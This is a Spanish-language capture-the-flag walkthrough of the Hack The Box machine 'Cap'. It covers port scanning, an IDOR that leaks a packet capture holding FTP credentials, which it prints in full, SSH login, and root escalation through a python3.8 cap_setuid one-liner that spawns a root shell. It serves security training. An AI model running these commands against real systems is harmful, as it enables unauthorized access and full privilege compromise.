

# Cap 

• Insecure Directory Object Reference (IDOR)
• Information Leakage
• Abusing Capabilities (Python3.8) [Privilege Escalation]

## Reconocimiento inicial
Realizamos un escaneo de todos los puertos para comprobar cuáles estan abiertos y lo exportamos al fichero `allports` 

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.245 -oG allports
```

```shell
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Vamos a realizar un escaneo más exaustivo de los siguiente puertos encontrados:


```shell
nmap -sCV -p21,22,80 10.10.10.245 -oN targeted
```

Se puede comprobar que no encontramos nada interesante o vulnerable.

```shell
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Con el siguiente comando voy a comprobar que nos encontramos en la página web.

```shell
whatweb http://10.10.10.245                   
http://10.10.10.245 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[gunicorn], IP[10.10.10.245], JQuery[2.2.4], Modernizr[2.8.3.min], Script, Title[Security Dashboard], X-UA-Compatible[ie=edge]
```
Voy a realizar un pequeño fuzzing y comprobar si exiten algunos ficheros interesantes.

```shell
nmap --script http-enum -p80 10.10.10.245
```

## Revisamos la pag web

Se puede ver que cuando intentamos acceder al recurso `http://10.10.10.245/data/0` obtenemos un fichero que se puede analizar con la herramienta `Wireshark`

Encontramos los siguientes datos relevantes:

```
User:nathan
Passwd:Buck3tH4TF0RM3!
```

## Acceso ftp:
Probamos esas credenciales en el servicio `ftp` y accedemos al servicio 
con el comando `get user.txt` obtenemos la primera flag.

```shell
ftp nathan@10.10.10.245
```

```shell
ftp> ls
229 Entering Extended Passive Mode (|||11864|)
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Sep 22 10:28 user.txt
226 Directory send OK.
ftp> get user.txt
```

## Acceso ssh

Con estas credenciales intentamos acceder al servicio ssh y comprobar si podemos acceder.

```shell
ssh nathan@10.10.10.245
```

## Escalada de privilegios

Comprobamos que recursos podemos ejecutar como root usamos el siguiente comando:
```shell
sudo -l
```
Sin embargo no obtenemos nada.
```shell
nathan@cap:~$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap
```
Comprobamos los ficheros que tenemos para explotar los permisos de SUID.
```shell
find / -perm -4000 -user root 2>/dev/null | xargs ls -l
```
```shell
-rwsr-xr-x 1 root root             43088 Sep 16  2020 /snap/core18/2066/bin/mount
-rwsr-xr-x 1 root root             64424 Jun 28  2019 /snap/core18/2066/bin/ping
-rwsr-xr-x 1 root root             44664 Mar 22  2019 /snap/core18/2066/bin/su
-rwsr-xr-x 1 root root             26696 Sep 16  2020 /snap/core18/2066/bin/umount
-rwsr-xr-x 1 root root             76496 Mar 22  2019 /snap/core18/2066/usr/bin/chfn
-rwsr-xr-x 1 root root             44528 Mar 22  2019 /snap/core18/2066/usr/bin/chsh
-rwsr-xr-x 1 root root             75824 Mar 22  2019 /snap/core18/2066/usr/bin/gpasswd
-rwsr-xr-x 1 root root             40344 Mar 22  2019 /snap/core18/2066/usr/bin/newgrp
-rwsr-xr-x 1 root root             59640 Mar 22  2019 /snap/core18/2066/usr/bin/passwd
-rwsr-xr-x 1 root root            149080 Jan 19  2021 /snap/core18/2066/usr/bin/sudo
-rwsr-xr-- 1 root systemd-resolve  42992 Jun 11  2020 /snap/core18/2066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root            436552 Mar  4  2019 /snap/core18/2066/usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root             43088 Sep 16  2020 /snap/core18/2074/bin/mount
-rwsr-xr-x 1 root root             64424 Jun 28  2019 /snap/core18/2074/bin/ping
-rwsr-xr-x 1 root root             44664 Mar 22  2019 /snap/core18/2074/bin/su
-rwsr-xr-x 1 root root             26696 Sep 16  2020 /snap/core18/2074/bin/umount
-rwsr-xr-x 1 root root             76496 Mar 22  2019 /snap/core18/2074/usr/bin/chfn
-rwsr-xr-x 1 root root             44528 Mar 22  2019 /snap/core18/2074/usr/bin/chsh
-rwsr-xr-x 1 root root             75824 Mar 22  2019 /snap/core18/2074/usr/bin/gpasswd
-rwsr-xr-x 1 root root             40344 Mar 22  2019 /snap/core18/2074/usr/bin/newgrp
-rwsr-xr-x 1 root root             59640 Mar 22  2019 /snap/core18/2074/usr/bin/passwd
-rwsr-xr-x 1 root root            149080 Jan 19  2021 /snap/core18/2074/usr/bin/sudo
-rwsr-xr-- 1 root systemd-resolve  42992 Jun 11  2020 /snap/core18/2074/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root            436552 Mar  4  2019 /snap/core18/2074/usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root            111080 Apr 24  2021 /snap/snapd/11841/usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root            111080 Jun 15  2021 /snap/snapd/12398/usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root             85064 May 28  2020 /usr/bin/chfn
-rwsr-xr-x 1 root root             53040 May 28  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root             39144 Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root             88464 May 28  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root             55528 Jul 21  2020 /usr/bin/mount
-rwsr-xr-x 1 root root             44784 May 28  2020 /usr/bin/newgrp
-rwsr-xr-x 1 root root             68208 May 28  2020 /usr/bin/passwd
-rwsr-xr-x 1 root root             31032 Aug 16  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root             67816 Jul 21  2020 /usr/bin/su
-rwsr-xr-x 1 root root            166056 Jan 19  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root             39144 Jul 21  2020 /usr/bin/umount
-rwsr-xr-- 1 root messagebus       51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root             14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root            473576 Mar  9  2021 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root             22840 Aug 16  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root            130152 Feb  2  2021 /usr/lib/snapd/snap-confine
```

No aparece nada intersante...

Por último comprobamos las `capabilities` con el siguiente comando:

```shell
getcap -r / 2>/dev/null
```

```shell
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

El más intersante es la de `python3.8` que cambiando la capability `cap_setuid` podemos ser root para ellos lo comprobamos con el siguiente comando:

```shell
python3.8 -c 'import os;os.setuid(0);os.system("whoami")'
```
y vemos como nos devuelve `root` 

Por lo tanto vamos a cambiar esta capability

```shell
python3.8 -c 'import os;os.setuid(0);os.system("bash")'
```

Obtenemos una shell de bash con los máximos privilegios y podemos acceder a `root.txt` 